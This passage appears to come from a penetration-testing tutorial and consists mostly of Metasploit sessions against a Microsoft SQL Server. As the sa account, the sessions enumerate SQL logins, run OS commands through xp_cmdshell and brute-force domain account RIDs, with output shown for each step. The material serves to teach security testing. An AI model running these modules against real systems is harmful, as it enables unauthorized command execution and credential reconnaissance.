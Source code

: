 <pre class="language-sh"><code class="lang-sh">msf6 auxiliary(admin/mssql/mssql_enum) > use auxiliary/admin/mssql/mssql_enum_sql_logins 
msf6 auxiliary(admin/mssql/mssql_enum_sql_logins) > run
[*] Running module against 10.5.23.109

[*] 10.5.23.109:1433 - Attempting to connect to the database server at 10.5.23.109:1433 as sa...
[+] 10.5.23.109:1433 - Connected.
[*] 10.5.23.109:1433 - Checking if sa has the sysadmin role...
<strong>[+] 10.5.23.109:1433 - sa is a sysadmin.
</strong>[*] 10.5.23.109:1433 - Setup to fuzz 300 SQL Server logins.
[*] 10.5.23.109:1433 - Enumerating logins...
[+] 10.5.23.109:1433 - 38 initial SQL Server logins were found.
[*] 10.5.23.109:1433 - Verifying the SQL Server logins...
[+] 10.5.23.109:1433 - 16 SQL Server logins were verified:
[*] 10.5.23.109:1433 -  - ##MS_PolicyEventProcessingLogin##
[*] 10.5.23.109:1433 -  - ##MS_PolicyTsqlExecutionLogin##
[*] 10.5.23.109:1433 -  - ##MS_SQLAuthenticatorCertificate##
[*] 10.5.23.109:1433 -  - ##MS_SQLReplicationSigningCertificate##
[*] 10.5.23.109:1433 -  - ##MS_SQLResourceSigningCertificate##
[*] 10.5.23.109:1433 -  - BUILTIN\Users
[*] 10.5.23.109:1433 -  - EC2AMAZ-5861GL6\Administrator
[*] 10.5.23.109:1433 -  - NT AUTHORITY\SYSTEM
[*] 10.5.23.109:1433 -  - NT SERVICE\SQLTELEMETRY$SQLEXPRESS
[*] 10.5.23.109:1433 -  - NT SERVICE\SQLWriter
[*] 10.5.23.109:1433 -  - NT SERVICE\Winmgmt
[*] 10.5.23.109:1433 -  - NT Service\MSSQL$SQLEXPRESS
[*] 10.5.23.109:1433 -  - admin
[*] 10.5.23.109:1433 -  - auditor
[*] 10.5.23.109:1433 -  - dbadmin
[*] 10.5.23.109:1433 -  - sa
[*] Auxiliary module execution completed
</code></pre>

To run commands, we can use the following scanner:

```sh
msf6 auxiliary(admin/mssql/mssql_enum_sql_logins) > use auxiliary/admin/mssql/mssql_exec 
msf6 auxiliary(admin/mssql/mssql_exec) > set cmd whoami
cmd => whoami
msf6 auxiliary(admin/mssql/mssql_exec) > run
[*] Running module against 10.5.23.109

[*] 10.5.23.109:1433 - SQL Query: EXEC master..xp_cmdshell 'whoami'

 output
 ------
 nt service\mssql$sqlexpress
```

To enumerate the domain accounts, we can use the following command:

```sh
msf6 auxiliary(admin/mssql/mssql_exec) > use auxiliary/admin/mssql/mssql_enum_domain_accounts
msf6 auxiliary(admin/mssql/mssql_enum_domain_accounts) > exploit
[*] Running module against 10.5.23.109

[*] 10.5.23.109:1433 - Attempting to connect to the database server at 10.5.23.109:1433 as sa...
[+] 10.5.23.109:1433 - Connected.
[*] 10.5.23.109:1433 - SQL Server Name: EC2AMAZ-5861GL6
[*] 10.5.23.109:1433 - Domain Name: CONTOSO
[+] 10.5.23.109:1433 - Found the domain sid: 010500000000000515000000cf4b5eb619bca0ed968e21ef
[*] 10.5.23.109:1433 - Brute forcing 10000 RIDs through the SQL Server, be patient...
[*] 10.5.23.109:1433 -  - EC2AMAZ-5861GL6\Administrator
[*] 10.5.23.109:1433 -  - CONTOSO\Guest
[*] 10.5.23.109:1433 -  - CONTOSO\krbtgt
[*] 10.5.23.109:1433 -  - CONTOSO\DefaultAccount
```

[^1]: setg is used to declare the rhosts as global so that we don't have to specify it again and again in a single session.